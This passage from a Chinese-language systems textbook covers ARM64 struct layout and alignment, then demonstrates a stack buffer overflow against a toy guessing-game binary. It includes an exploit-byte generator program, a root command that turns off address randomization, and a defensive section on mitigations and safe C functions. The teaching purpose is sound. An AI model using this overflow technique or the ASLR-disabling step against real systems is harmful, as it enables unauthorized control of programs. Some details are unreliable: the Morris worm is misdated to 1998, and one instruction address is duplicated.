`strncpy`调用将`s`的`name`字段的基地址、数组`nm`的地址以及长度指定符作为三个参数。请回想一下，由于`name`是`struct studentT`中的第一个字段，`s`的地址即等同于`s->name`的地址。

```
0x7fc <+8>:  str  x0, [x29, #40]         // store s at x29 + 40

0x800 <+12>: str  x1, [x29, #32]         // store nm at x29 + 32

0x804 <+16>: str  w2, [x29, #28]         // store ag at x29 + 28

0x808 <+20>: str  w3, [x29, #24]         // store gr at x29 + 24

0x80c <+24>: str  s0, [x29, #20]         // store g at x29 + 20

0x810 <+28>: ldr  x0, [x29, #40]         // x0 = s

0x814 <+32>: mov  x2, #0x40              // x2 = 0x40 (or 64)

0x814 <+36>: ldr  x1, [x29, #32]         // x1 = nm

0x818 <+40>: bl   0x6e0 <strncpy@plt>    // call strncpy(s, nm, 64) (s->name)
```

上面的代码片段包含了一个未讨论的寄存器（`s0`）。`s0`寄存器是一个为浮点值保留的寄存器的例子。

下一部分（指令 `<initStudent+44>` 到 `<initStudent+52>`）将`gr`参数的值放置在`s`的起始地址偏移量 68 的位置。回顾图 9-13 中的内存布局，可以看到该地址对应于`s->grad_yr`。

```
0x81c <+44>: ldr  x0, [x29, #40]         // x0 = s

0x820 <+48>: ldr  w1, [x29, #24]         // w1 = gr

0x824 <+52>: str  w1, [x0, #68]          // store gr at (s + 68) (s->grad_yr)
```

下一部分（指令 `<initStudent+56>` 到 `<initStudent+64>`）将`ag`参数复制到`s->age`字段，该字段位于`s`地址的偏移量 64 字节处。

```
0x828 <+56>: ldr  x0, [x29, #40]         // x0 = s

0x82c <+60>: ldr  w1, [x29, #28]         // w1 = ag

0x830 <+64>: str  w1, [x0, #64]          // store ag at (s + 64) (s->age)
```

最后，`g`参数的值被复制到`s->gpa`字段（字节偏移量 72）。请注意，由于位于位置`x29` + 20 的数据显示的是单精度浮点数，因此使用了`s0`寄存器：

```
0x834 <+68>: ldr  x0, [x29, #40]         // x0 = s

0x838 <+72>: ldr  s0, [x29, #20]         // s0 = g

0x83c <+80>: str  s0, [x0, #72]          // store g at (s + 72) (s->gpa)
```

#### 9.9.1 数据对齐与结构体

请考虑以下修改后的`studentT`声明：

```
struct studentTM {

    char name[63]; //updated to 63 instead of 64

    int  age;

    int  grad_yr;

    float gpa;

};

struct studentTM student2;
```

`name`字段的大小被修改为 63 字节，而不是原来的 64 字节。考虑一下这如何影响`struct`在内存中的布局。你可能会忍不住想像成图 9-14 中的样子。



*图 9-14：更新后的`struct` `studentTM`的内存布局不正确。请注意，`name`字段已从 64 字节减少到 63 字节。*

在这个图示中，`age`字段出现在紧接着`name`字段的字节后面。但这是不正确的。图 9-15 显示了内存中实际的布局。



*图 9-15：更新后的`struct` `studentTM`的正确内存布局。编译器为满足内存对齐约束，添加了字节 *a*[63]，但它并不对应任何字段。*

A64 的对齐策略要求四字节数据类型（例如`int`）位于地址是四的倍数的位置，而 64 位数据类型（`long`、`double`和指针数据）则位于地址是八的倍数的位置。对于`struct`，编译器在字段之间添加空字节作为“填充”，以确保每个字段满足其对齐要求。例如，在之前代码片段中声明的`struct`中，编译器在字节*a*[63]处添加一个填充字节，以确保`age`字段从一个四的倍数地址开始。正确对齐的值可以通过单次操作进行读写，从而提高效率。

考虑当`struct`定义如下时会发生什么情况：

```
struct studentTM {

    int  age;

    int  grad_yr;

    float gpa;

    char name[63];

};

struct studentTM student3;
```

将`name`数组移到末尾，确保`age`、`grad_yr`和`gpa`对齐为四字节。大多数编译器将去掉`struct`末尾的填充字节。然而，如果`struct`被用在数组的上下文中（例如，`struct studentTM courseSection[20];`），编译器会再次在数组中的每个`struct`之间添加填充字节，以确保正确满足对齐要求。

### 9.10 现实世界：缓冲区溢出

C 语言不执行自动数组边界检查。访问数组边界之外的内存是有问题的，并且通常会导致诸如段错误之类的错误。然而，巧妙的攻击者可以注入恶意代码，故意使数组（也称为*缓冲区*）越界，从而迫使程序以非预期的方式执行。在最坏的情况下，攻击者可以运行代码，允许他们获取*root 权限*，即操作系统级别的访问权限。一种利用程序中已知的缓冲区溢出错误的漏洞的软件称为*缓冲区溢出攻击*。

在本节中，我们将使用 GDB 和汇编语言来全面描述缓冲区溢出攻击的机制。在阅读本章之前，我们鼓励您先阅读“调试汇编代码”部分，参见第 177 页。

#### 9.10.1 缓冲区溢出的著名示例

缓冲区溢出攻击在 1980 年代出现，并在 2000 年代初期持续成为计算机行业的主要祸害。尽管许多现代操作系统已经对最简单的缓冲区溢出攻击进行了防护，但不小心的编程错误仍然会让现代程序面临严重的攻击风险。最近在 Skype^(6)、Android^(7)、Google Chrome^(8)等程序中发现了缓冲区溢出攻击。

下面是一些缓冲区溢出攻击的著名历史示例。

##### 莫里斯蠕虫

莫里斯蠕虫^(9)于 1998 年在 MIT 的 ARPANet 上发布（为了掩盖它是由康奈尔大学的一名学生编写的），并利用了 Unix 指纹守护进程（`fingerd`）中的缓冲区溢出漏洞。在 Linux 和其他类 Unix 系统中，*守护进程*是一种持续在后台运行的进程，通常执行清理和监控任务。`fingerd`守护进程提供有关计算机或用户的友好报告。最关键的是，蠕虫具有一种复制机制，使其能够多次发送到同一计算机，导致系统变得无法使用。尽管作者声称该蠕虫本意是作为一种无害的智力练习，但其复制机制使得蠕虫能够轻松传播，并且很难清除。在随后的几年中，其他蠕虫也使用缓冲区溢出漏洞来非法访问系统。著名的例子包括 Code Red（2001 年）、MS-SQLSlammer（2003 年）和 W32/Blaster（2003 年）。

##### AOL 聊天战争

大卫·奥尔巴赫（David Auerbach）^(10)，前微软工程师，详细描述了他在将微软的 Messenger 服务（MMS）与 AOL 即时通讯（AIM）在 1990 年代末期进行集成时遇到的缓冲区溢出问题。当时，如果你想和朋友或家人进行即时消息聊天，AOL 即时通讯（AIM）是*首选*服务。微软试图通过在 MMS 中设计一个功能，使得 MMS 用户能够与他们的 AIM“好友”进行对话，从而在该市场中占有一席之地。AOL 对此不满，修补了他们的服务器，防止 MMS 再与其连接。微软工程师找到了让 MMS 客户端模拟 AIM 客户端发送给 AOL 服务器的消息的方法，从而使 AOL 难以区分由 MMS 和 AIM 接收到的消息。AOL 回应通过改变 AIM 消息发送方式，MMS 工程师也相应修改了他们的客户端消息，以再次与 AIM 的消息一致。这场“聊天战争”持续了下去，直到 AOL 开始在*他们自己的客户端*中使用缓冲区溢出错误来验证发送的消息是否来自 AIM 客户端。由于 MMS 客户端没有相同的漏洞，聊天战争最终结束，AOL 成为了赢家。

#### 9.10.2 初探：猜谜游戏

为了帮助你理解缓冲区溢出攻击的机制，我们提供了一个简单程序的可执行文件，用户可以通过它与程序进行猜谜游戏。下载`secret`可执行文件^(11)并使用`tar`命令解压：

```
$ tar -xzvf secretARM64.tar.gz
```

以下是与该可执行文件相关的主文件副本：

main.c

```
#include <stdio.h>

#include <stdlib.h>

#include "other.h"

int endGame(void){

  printf("You win!\n");

  exit(0);

}

int playGame(void){

  int guess, secret, len, x=3;

  char buf[12];

  printf("Enter secret number:\n");

  scanf("%s", buf);

  guess = atoi(buf);

  secret=getSecretCode();

  if (guess == secret)

    printf("You got it right!\n");

  else{

    printf("You are so wrong!\n");

    return 1;

  }

  printf("Enter the secret string to win:\n");

  scanf("%s", buf);

  guess = calculateValue(buf, strlen(buf));

  if (guess != secret){

    printf("You lose!\n");

    return 2;

  }

  endGame();

  return 0;

}

int main(){

  int res = playGame();

  return res;

}
```

这个游戏提示用户先输入一个秘密数字，然后输入一个秘密字符串来赢得猜谜游戏。头文件 `other.h` 包含了 `getSecretCode` 和 `calculateValue` 函数的定义，但我们无法访问它。那么，用户该如何战胜这个程序呢？暴力破解解决方案需要很长时间。一个策略是通过 GDB 分析 `secret` 可执行文件，并逐步查看汇编代码以揭示秘密数字和字符串。检查汇编代码以揭示它如何工作的过程通常称为 *逆向工程*。对 GDB 和汇编代码阅读足够熟悉的读者应该能够使用 GDB 逆向工程出秘密数字和秘密字符串。

然而，有一种不同的、更狡猾的方式可以获胜。

#### 9.10.3 更深入的了解（C 之下）

程序在第一次调用 `scanf` 时包含了潜在的缓冲区溢出漏洞。为了理解发生了什么，我们通过 GDB 检查 `main` 函数的汇编代码。我们还将设置一个断点，地址为 0x0000aaaaaaaaa92c，这是调用 `scanf` 之前指令的地址（将断点设置在 `scanf` 的地址会导致程序执行在 `scanf` 调用*内部*暂停，而不是在 `main` 中暂停），然后使用 `ni` 命令逐步执行一条指令：

```
Dump of assembler code for function playGame:

   0x0000aaaaaaaaa908 <+0>: stp	x29, x30, [sp, #-48]!

   0x0000aaaaaaaaa90c <+4>: mov	x29, sp

   0x0000aaaaaaaaa910 <+8>: mov	w0, #0x3

   0x0000aaaaaaaaa914 <+12>: str	w0, [x29, #44]

   0x0000aaaaaaaaa918 <+16>: adrp	x0, 0xaaaaaaaaa000

   0x0000aaaaaaaaa91c <+20>: add	x0, x0, #0xac0

   0x0000aaaaaaaaa920 <+24>: bl	0xaaaaaaaaa730 <puts@plt>

   0x0000aaaaaaaaa924 <+28>: add	x1, x29, #0x18

   0x0000aaaaaaaaa928 <+32>: adrp	x0, 0xaaaaaaaaa000

   0x0000aaaaaaaaa92c <+36>: add	x0, x0, #0xad8

=> 0x0000aaaaaaaaa930 <+40>: bl	0xaaaaaaaaa740 <__isoc99_scanf@plt>
```

图 9-16 展示了在调用 `scanf` 之前的栈状态。



*图 9-16：调用 `scanf` 之前的调用栈*

在调用 `scanf` 之前，`scanf` 的前两个参数分别已预加载到寄存器 `x0` 和 `x1` 中。数组 `buf` 的地址存储在栈位置 `x29` + 0x18（见 `<playGame+28>`）。

现在，假设用户在提示符下输入 `1234567890`。图 9-17 展示了在调用 `scanf` 完成后栈的状态。



*图 9-17：调用 `scanf` 并输入 `1234567890` 后的调用栈*

请回想，数字 0 到 9 的 ASCII 编码的十六进制值是 0x30 到 0x39，并且每个栈内存位置的长度为 8 字节。`main` 函数的帧指针距离栈指针 56 字节。读者可以通过使用 GDB 打印 `x29` 的值（`p x29`）来确认其值。在所示的示例中，`x29` 保存的值是 0xffffffffeef0。以下命令允许读者检查位于寄存器 `sp` 下面 64 字节（以十六进制表示）的内容：

```
(gdb) x /64bx $sp
```

这个 GDB 命令的输出将类似于以下内容：

```
(gdb) x /64bx $sp

0xffffffffeec0:	0xf0 0xee 0xff 0xff 0xff 0xff 0x00 0x00

0xffffffffeec8: 0xf0 0xa9 0xaa 0xaa 0xaa 0xaa 0x00 0x00

0xffffffffeed0: 0x10 0xef 0xff 0xff 0xff 0xff 0x00 0x00

0xffffffffeed8: 0x31 0x32 0x33 0x34 0x35 0x36 0x37 0x38

0xffffffffeee0: 0x39 0x30 0x00 0xaa 0xaa 0xaa 0x00 0x00

0xffffffffeee8: 0x00 0x00 0x00 0x00 0x03 0x00 0x00 0x00

0xffffffffeef0: 0x10 0xef 0xff 0xff 0xff 0xff 0x00 0x00

0xffffffffeef8: 0xe0 0x36 0x58 0xbf 0xff 0xff 0x00 0x00
```

每一行代表一个 64 位地址，或者两个 32 位地址。因此，关联到 32 位地址 0xffffffffeedc 的值位于显示 0xffffffffeed8 的行的最右侧四个字节中。

**注意 多字节值按小端顺序存储**

在前面的汇编段中，地址 0xffffffffeec0 处的字节是 0xf0，地址 0xffffffffeec1 处的字节是 0xee，地址 0xffffffffeec2 处的字节是 0xff，地址 0xffffffffeec3 处的字节是 0xff，地址 0xffffffffeec4 处的字节是 0xff，地址 0xffffffffeec5 处的字节是 0xff。然而，地址 0xffffffffeec0 处的 64 位*值*实际上是 0xffffffffeef0。请记住，由于 ARM64 默认是小端系统（参见第 224 页的“整数字节顺序”），多字节值（如地址）的字节以相反的顺序存储。

在这个例子中，`buf`的地址位于地址 0xffffffffeed8。因此，以下两个地址保存了与输入字符串`1234567890`相关的字节：

```
0xffffffffeed8: 0x31 0x32 0x33 0x34 0x35 0x36 0x37 0x38

0xffffffffeee0: 0x39 0x30 0x00 0xaa 0xaa 0xaa 0x00 0x00
```

空终止字节`\0`出现在地址 0xffffffffeee2 的第三个字节位置。回想一下，`scanf`会用一个空字节来终止所有字符串。

当然，`1234567890`不是秘密数字。当我们尝试使用输入字符串`1234567890`运行`secret`时，输出如下：

```
$ ./secret

Enter secret number:

1234567890

You are so wrong!

$ echo $?

1
```

`echo $?`命令打印出最后执行的命令的返回值。在这种情况下，程序返回 1，因为我们输入的秘密数字是错误的。回想一下，根据惯例，当程序没有错误时，会返回 0。我们的目标是让程序以返回值 0 退出，表明我们赢得了游戏。

#### 9.10.4 缓冲区溢出：第一次尝试

接下来，让我们尝试输入字符串`12345678901234567890123456789012345`：

```
$ ./secret

Enter secret number:

12345678901234567890123456789012345

You are so wrong!

Bus error

$ echo $?

139
```

真有趣！现在程序因总线错误（另一种类型的内存错误）崩溃，返回代码为 139。图 9-18 展示了调用`scanf`并输入这个新字符串后的`main`函数调用栈。



*图 9-18：调用`scanf`并输入`12345678901234567890123456789012345`后的调用栈*

输入字符串过长，不仅覆盖了保存在地址 0xeed8 处的`x29`，还溢出了`main`栈帧下方的返回地址。回想一下，当函数返回时，程序会尝试从返回地址指定的位置恢复执行。在这个例子中，程序试图在退出`main`后从地址 0xffff00353433 恢复执行，但该地址似乎不存在。所以程序因总线错误崩溃。

在 GDB 中重新运行程序（`input.txt`包含上述输入字符串）揭示了这个恶作剧的行为：

```
$ gdb secret

(gdb) break *0x0000aaaaaaaaa934

(gdb) run < input.txt

(gdb) ni

(gdb) x /64bx $sp

0xffffffffeec0: 0xf0 0xee 0xff 0xff 0xff 0xff 0x00 0x00

0xffffffffeec8: 0xf0 0xa9 0xaa 0xaa 0xaa 0xaa 0x00 0x00

0xffffffffeed0: 0x10 0xef 0xff 0xff 0xff 0xff 0x00 0x00

0xffffffffeed8: 0x31 0x32 0x33 0x34 0x35 0x36 0x37 0x38

0xffffffffeee0: 0x39 0x30 0x31 0x32 0x33 0x34 0x35 0x36

0xffffffffeee8: 0x37 0x38 0x39 0x30 0x31 0x32 0x33 0x34

0xffffffffeef0: 0x35 0x36 0x37 0x38 0x39 0x30 0x31 0x32

0xffffffffeef8: 0x33 0x34 0x35 0x00 0xff 0xff 0x00 0x00

(gdb) n

Single stepping until exit from function playGame,

which has no line number information.

You are so wrong!

0x0000aaaaaaaaa9f0 in main ()

(gdb) n

Single stepping until exit from function main,

which has no line number information.

0x0000ffff00353433 in ?? ()
```

注意到我们的输入字符串超出了`buf`数组的预定限制，覆盖了栈上存储的所有其他值。换句话说，我们的字符串创建了一个缓冲区溢出并破坏了调用栈，导致程序崩溃。这个过程也被称为*栈溢出攻击*。

#### 9.10.5 更聪明的缓冲区溢出：第二次尝试

我们的第一个例子通过用垃圾值覆盖保存的`x29`寄存器和`main`函数的返回地址来破坏了堆栈，导致程序崩溃。一个只想使程序崩溃的攻击者在这一点上可能会感到满意。然而，我们的目标是欺骗猜谜游戏返回 0，表示我们赢得了比赛。我们通过填充调用堆栈使其充满比垃圾值更有意义的数据来实现这一点。例如，我们可以覆盖堆栈，使返回地址被替换为`endGame`的地址。然后，当程序试图从`main`返回时，它将执行`endGame`而不是崩溃。

要找出`endGame`的地址，请再次在 GDB 中检查`secret`：

```
$ gdb secret

(gdb) disas endGame

Dump of assembler code for function endGame:

   0x0000aaaaaaaaa8ec <+0>: stp x29, x30, [sp, #-16]!

   0x0000aaaaaaaaa8f0 <+4>: mov x29, sp

   0x0000aaaaaaaaa8f4 <+8>: adrp x0, 0xaaaaaaaaa000

   0x0000aaaaaaaaa8f8 <+12>: add x0, x0, #0xab0

   0x0000aaaaaaaaa8fc <+16>: bl 0xaaaaaaaaa730 <puts@plt>

   0x0000aaaaaaaaa900 <+20>: mov w0, #0x0

   0x0000aaaaaaaaa904 <+24>: bl 0xaaaaaaaaa6d0 <exit@plt>
```

注意，`endGame`的地址为 0x0000aaaaaaaaa8ec。图 9-19 说明了一个示例利用程序，强制`secret`运行`endGame`函数的漏洞利用。



*图 9-19：一个可以强制`secret`执行`endGame`函数的示例字符串*

本质上，有 32 字节的垃圾值，然后是返回地址。再次强调，因为 ARM64 默认是小端系统，返回地址中的字节看起来是反向的。

下面的程序说明了攻击者如何构建上述漏洞利用：

```
#include <stdio.h>

char ebuff[]=

"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*first 10 bytes of junk*/

"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*next 10 bytes of junk*/

"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*following 10 bytes of junk*/

"\x00\x00" /*last 2 bytes of junk*/

"\xec\xa8\xaa\xaa\xaa\xaa\x00\x00" /*address of endGame (little endian)*/

;

int main(void) {

    int i;

    for (i = 0; i < sizeof(ebuff); i++) { /*print each character*/

        printf("%c", ebuff[i]);

    }

    return 0;

}
```

每个数字前面的`\x`表示该数字格式化为字符的十六进制表示。在定义`ebuff[]`之后，`main`函数只是简单地逐个字符地打印它。要获取关联的字节字符串，请编译并运行以下程序：

```
$ gcc -o genEx genEx.c

$ ./genEx > exploit
```

要将`exploit`作为`scanf`的输入使用，只需在树莓派上运行带有`exploit`的`secret`。要使漏洞利用在树莓派上生效，请作为 root 键入以下一组命令（我们将在示例之后解释正在进行的操作）：

```
$ sudo su

[sudo] password for pi:

root@pi# echo "0" > /proc/sys/kernel/randomize_va_space

root@pi# exit

$
```

`sudo su`命令会将您置于树莓派的 root 模式。在提示输入密码时，请使用您的密码（我们假设您对树莓派具有 root 访问权限）。一旦输入密码，接下来的命令将在 root 模式下键入。请注意，当用户处于 root 模式时，命令提示符会改变（看起来类似于`root@pi#`）。

`echo`命令会用值 0 覆盖文件`randomize_va_space`的内容。接下来，`exit`命令将用户返回到用户模式。

现在，在提示符下键入以下命令：

```
$ ./secret < exploit

Enter secret number:

You are so wrong!

You win!
```

程序会打印出“你错了！”因为`exploit`中包含的字符串*不是*秘密数字。但是，程序也会打印出字符串“你赢了！”请记住，我们的目标是欺骗程序返回 0。在一个更大的系统中，成功的概念由外部程序跟踪，通常更重要的是程序返回的内容，而不是打印出的内容。

检查返回值会得到：

```
$ echo $?

0
```

我们的攻击成功了！我们赢了比赛！

#### 9.10.6 缓冲区溢出防护

我们展示的例子改变了`secret`可执行文件的控制流，迫使它返回一个与成功相关的零值。由于 ARM 和 GCC 包含的堆栈保护措施，旨在防止这种特定类型的攻击，我们不得不通过一种相当笨拙的方式来实现这一点。然而，缓冲区溢出攻击在旧系统上可能会造成实际损害。一些旧计算机系统也会从堆栈内存中*执行*字节。如果攻击者将与汇编指令相关的字节放置在调用堆栈上，CPU 会将这些字节解释为*真实*的指令，从而使攻击者能够强制 CPU 执行*他们选择的任何任意代码*。幸运的是，现代计算机系统采用了一些策略，使得攻击者更难运行缓冲区溢出攻击：

**堆栈随机化。** 操作系统在堆栈内存中以随机位置分配堆栈的起始地址，使得每次程序运行时调用堆栈的位置/大小不同。当我们将`/proc/sys/kernel/randomize_va_space`文件的值设置为 0 时，我们暂时关闭了树莓派上的堆栈随机化（该文件在重启后会恢复到原值）。如果不关闭堆栈随机化，多个运行相同代码的机器会有不同的堆栈地址。现代 Linux 系统将堆栈随机化作为标准做法。然而，一位决心坚定的攻击者可以通过尝试使用不同的地址反复发起攻击来暴力破解这一防御。一个常见的技巧是在实际的攻击代码之前使用*NOP 滑道*（即，大量 NOP 指令）。执行 NOP 指令（`0x90`）没有任何效果，除了让程序计数器递增到下一个指令。只要攻击者能够让 CPU 在 NOP 滑道中的某个位置执行，NOP 滑道最终会引导 CPU 执行随后的攻击代码。Aleph One 的论文^(12)详细介绍了这种类型攻击的机制。

**堆栈损坏检测。** 另一种防御措施是尝试检测堆栈是否已损坏。GCC 的最新版本使用一种堆栈保护器，称为*金丝雀*，它充当缓冲区与堆栈其他元素之间的保护。金丝雀是存储在不可写内存区域中的一个值，可以与堆栈上的值进行比较。如果金丝雀在程序执行过程中“死亡”，程序就知道自己正遭受攻击，并会以错误信息中止。为了简便起见，我们通过在 GCC 中使用`fno-stack-protector`标志来编译`secret`可执行文件，去除了金丝雀。然而，一位聪明的攻击者可以在攻击过程中替换金丝雀，从而阻止程序检测到堆栈损坏。

**限制可执行区域。** 在这一防御措施中，可执行代码仅限于特定的内存区域。换句话说，调用栈不再是可执行的。然而，连这种防御也可以被突破。在利用*基于返回的编程*（ROP）攻击中，攻击者可以“挑选”可执行区域中的指令，并通过跳转指令来构建利用代码。网上有一些著名的例子，尤其是在视频游戏中。^(13)

然而，最好的防线始终是程序员本人。为了防止缓冲区溢出攻击，尽可能使用带有*长度限定符*的 C 函数，并添加执行数组边界检查的代码。至关重要的是，任何已定义的数组都必须与所选的长度限定符匹配。表 9-16 列出了几种常见的“坏” C 函数，这些函数容易受到缓冲区溢出攻击，以及对应的“好”函数（假设`buf`已分配了 12 个字节）：

**表 9-16：** 带长度限定符的 C 函数

| **不要使用** | **使用** |
| --- | --- |
| `gets(buf)` | `fgets(buf, 12, stdin)` |
| `scanf("%s", buf)` | `scanf("%12s", buf)` |
| `strcpy(buf2, buf)` | `strncpy(buf2, buf, 12)` |
| `strcat(buf2, buf)` | `strncat(buf2, buf, 12)` |
| `sprintf(buf, "%d", num)` | `snprintf(buf, 12, "%d", num)` |

`secret2`二进制文件^(14)不再有缓冲区溢出漏洞。这个新二进制文件的`playGame`函数如下所示：

main2.c

```
int playGame(void){

  int guess, secret, len, x=3;

  char buf[12];

  printf("Enter secret number:\n");

  scanf("%12s", buf); //lengths specifier added here!

  guess = atoi(buf);

  secret=getSecretCode();

  if (guess == secret)

    printf("You got it right!\n");

  else{

    printf("You are so wrong!\n");

    return 1;

  }

  printf("Enter the secret string to win:\n");

  scanf("%12s", buf); //length specifier added here!

 guess = calculateValue(buf, strlen(buf));

  if (guess != secret){

    printf("You lose!\n");

    return 2;

  }

  endGame();

  return 0;

}
```

注意，我们对所有`scanf`调用添加了长度限定符，使得`scanf`函数在读取输入的前 12 个字节后停止。此时，利用该漏洞的字符串不再能使程序崩溃：

```
$ ./secret2 < exploit

Enter secret number:

You are so wrong!

$ echo $?

1
```

当然，任何具有基本逆向工程技能的读者仍然可以通过分析汇编代码来赢得猜测游戏。如果你还没有尝试通过逆向工程来打败该程序，建议你现在尝试一下。

### 注意事项

1. *[`developer.arm.com/tools-and-software/open-source-software/developer-tools/gnu-toolchain/gnu-a/downloads`](https://developer.arm.com/tools-and-software/open-source-software/developer-tools/gnu-toolchain/gnu-a/downloads)*

2. *[`www.qemu.org/`](https://www.qemu.org/)*

3. *[`aws.amazon.com/ec2/instance-types/a1/`](https://aws.amazon.com/ec2/instance-types/a1/)*

4. Edsger Dijkstra，“Go To 语句被认为是有害的，”*ACM 通信* 11(3)，第 147-148 页，1968 年。

5. *[`diveintosystems.org/book/C9-ARM64/recursion.html#_animation_observing_how_the_call_stack_changes`](https://diveintosystems.org/book/C9-ARM64/recursion.html#_animation_observing_how_the_call_stack_changes)*

6. Mohit Kumar, “Critical Skype Bug Lets Hackers Remotely Execute Malicious Code,” *[`thehackernews.com/2017/06/skype-crash-bug.html`](https://thehackernews.com/2017/06/skype-crash-bug.html)*, 2017.

7. Tamir Zahavi-Brunner, “CVE-2017-13253: 多个 Android DRM 服务中的缓冲区溢出漏洞，” *[`blog.zimperium.com/cve-2017-13253-buffer-overflow-multiple-android-drm-services/`](https://blog.zimperium.com/cve-2017-13253-buffer-overflow-multiple-android-drm-services/)*, 2018.

8. Tom Spring, “谷歌修复‘高危’浏览器漏洞，” *[`threatpost.com/google-patches-high-severity-browser-bug/128661/`](https://threatpost.com/google-patches-high-severity-browser-bug/128661/)*, 2017.

9. Christopher Kelty, “The Morris Worm,” *Limn Magazine*, Issue 1: 系统性风险, 2011\. *[`limn.it/articles/the-morris-worm/`](https://limn.it/articles/the-morris-worm/)*

10. David Auerbach, “聊天战争：微软 vs. AOL，” *NplusOne Magazine*, Issue 19, 2014 年春季\. *[`nplusonemag.com/issue-19/essays/chat-wars/`](https://nplusonemag.com/issue-19/essays/chat-wars/)*

11. *[`diveintosystems.org/book/C9-ARM64/_attachments/secretARM64.tar.gz`](https://diveintosystems.org/book/C9-ARM64/_attachments/secretARM64.tar.gz)*

12. Aleph One, “为了乐趣和利润破坏栈，” *[`insecure.org/stf/smashstack.html`](http://insecure.org/stf/smashstack.html)*, 1996.

13. DotsAreCool, “超级马里奥世界信用跳跃”（任天堂 ROP 示例）， *[`youtu.be/vAHXK2wut_I`](https://youtu.be/vAHXK2wut_I)*, 2015.

14. *[`diveintosystems.org/book/C9-ARM64/_attachments/secret2ARM64.tar.gz`](https://diveintosystems.org/book/C9-ARM64/_attachments/secret2ARM64.tar.gz)*
